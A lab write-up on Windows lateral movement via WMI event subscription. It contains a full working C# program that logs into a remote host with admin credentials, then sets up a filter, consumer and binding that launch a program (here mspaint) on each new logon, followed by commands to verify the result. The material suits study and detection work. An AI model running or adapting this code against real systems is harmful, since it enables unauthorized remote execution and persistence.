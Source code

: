 # Lateral Movement via WMI Event Subscription

This is a quick lab to familiariaze with a lateral movement technique using WMI events, as described in [@domchell](https://twitter.com/domchell) aricle [I Like to Move It: Windows Lateral Movement Part 1 – WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - go check it out for more details, including detection ideas.

See my other lab related to persistence using WMI events:

{% page-ref page="../persistence/t1084-abusing-windows-managent-instrumentation/" %}

## Walkthrough

The below C\# code for WMI events based lateral movement does a couple of things:

| Line | Action |
| :--- | :--- |
| 29 - 33       | Connects to the remote endpoint `192.168.56.105` using local admin credentials `spotless:123456` |
| 33 - 46 | Creates a new WMI filter `evilSpotlessFilter` on `192.168.56.105`.  It will get triggered when a new logon session is created on `192.168.56.105` |
| 49 - 52                        | Creates a WMI consumer `evilSpotlessConsumer` on `192.168.56.105`.  This consumer executes `mspaint.exe` on `192.168.56.105`, when the filter `evilSpotlessFilter` is triggered \(upon new logon session creation\) |
| 55 - 58                           | WMI filter `evilSpotlessFilter` and WMI consumer `evilSpotlessConsumer` are bound. In layman's terms, the system `192.168.56.105` is instructed to **DEFINITELY** fire `mspaint.exe` on each new logon session that is created on the system. |

```csharp
// code completely stolen from @domchell article 
// https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
// slightly modified to accommodate this lab

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management;

namespace wmisubscription_lateralmovement
{
    class Program
    {
        static void Main(string[] args)
        {

            // Connect to remote endpoint for WMI management
            string NAMESPACE = @"\\192.168.56.105\root\subscription";

            ConnectionOptions cOption = new ConnectionOptions();
            ManagementScope scope = null;
            scope = new ManagementScope(NAMESPACE, cOption);
            
            scope.Options.Username = "spotless";
            scope.Options.Password = "123456";
            scope.Options.Authority = string.Format("ntlmdomain:{0}", ".");
            
            scope.Options.EnablePrivileges = true;
            scope.Options.Authentication = AuthenticationLevel.PacketPrivacy;
            scope.Options.Impersonation = ImpersonationLevel.Impersonate;
            scope.Connect();

            // Create WMI event filter
            ManagementClass wmiEventFilter = new ManagementClass(scope, new ManagementPath("__EventFilter"), null);

            string query = "SELECT * FROM __InstanceCreationEvent Within 5 Where TargetInstance Isa 'Win32_LogonSession'";
            WqlEventQuery myEventQuery = new WqlEventQuery(query);

            ManagementObject myEventFilter = wmiEventFilter.CreateInstance();
            myEventFilter["Name"] = "evilSpotlessFilter";
            myEventFilter["Query"] = myEventQuery.QueryString;
            myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
            myEventFilter["EventNameSpace"] = @"root\cimv2";
            myEventFilter.Put();

            // Create WMI event consumer
            ManagementObject myEventConsumer = new ManagementClass(scope, new ManagementPath("CommandLineEventConsumer"), null).CreateInstance();
            myEventConsumer["Name"] = "evilSpotlessConsumer";
            myEventConsumer["ExecutablePath"] = "mspaint.exe";
            myEventConsumer.Put();

            // Bind filter and consumer
            ManagementObject  myBinder = new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"), null).CreateInstance();
            myBinder["Filter"] = myEventFilter.Path.RelativePath;
            myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
            myBinder.Put();

            // Cleanup
            // myEventFilter.Delete();
            // myEventConsumer.Delete();
            // myBinder.Delete();

        }
    }
}
```

## Observations

Once `connect` method is called, a couple of connections from the attacking machine \(top right\) are initiated to the target machine `192.168.56.105` \(bottom right\) over port TCP 135 \(traffic receiver is svchost.exe as it's hosting the RPC service through which we are communicating\):

![](../../.gitbook/assets/image%20%28556%29.png)

After the code has executed, it will have created the WMI event filters, consumers and bind them on the target host `192.168.56.105`.

On the target host, we can check if the said filters and consumers were created like so:

```csharp
# view wmi filters
Get-WmiObject -Class __EventFilter -Namespace root\subscription

# view wmi consumers
Get-WmiObject -Class __EventConsumer -Namespace root\subscription

# view bindings
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```

Below shows output of the `evilSpotlessFilter` WMI filter we created on the target system:

![](../../.gitbook/assets/image%20%28599%29.png)

## Demo

Below shows the WMI events based lateral movement technique in action:

* On the left, we compile and run the code that creates WMI event filters, consumers and binds them together
* In the top right corner - ther is a ProcMon that is set to capture when a new `mspaint.exe` process starts. In our case, it should start once there is a new logon session created on the system \(remember, because of the `evilSpotlessFilter`\)
* In the bottom right corner there is a powershell console initiating a new logon session with `runas.exe`. Once the authentication succeeds, a new logon session is created, cmd.exe is spawned and the WMI event filter `evilSpotlessFilter` is triggered and WMI event consumer `evilSpotlessConsumer` kicks off the `mspaint.exe`:

![](../../.gitbook/assets/wmi-events-lateralmovement.gif)

## References

{% embed url="https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/wmisdk/commandlineeventconsumer" %}



